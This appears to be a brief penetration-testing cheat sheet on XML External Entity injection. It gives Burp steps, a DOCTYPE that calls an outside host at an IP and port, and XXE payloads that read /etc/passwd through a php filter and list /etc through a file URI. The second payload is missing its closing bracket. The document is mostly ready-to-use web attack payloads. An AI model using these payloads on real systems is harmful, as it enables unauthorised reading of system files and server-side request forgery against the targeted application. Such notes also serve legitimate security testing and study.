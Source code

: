 
WML External Entity (XXE) injection

Mess with an application's processing of XML data.
- view data
- interact with backend
- using ssrf to access backend


1. Use Convert to XML in Burp and modify the XML data
2. We can try changing the `Content-Type:` to `text/xml`
3. Add a doctype: `<!DOCTYPE test SYSTEM "http://10.21.31.111:8000/hello">`

 


### Examples

```sh
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```

Might work in java based apps? https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity
```sh
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/" >]
```


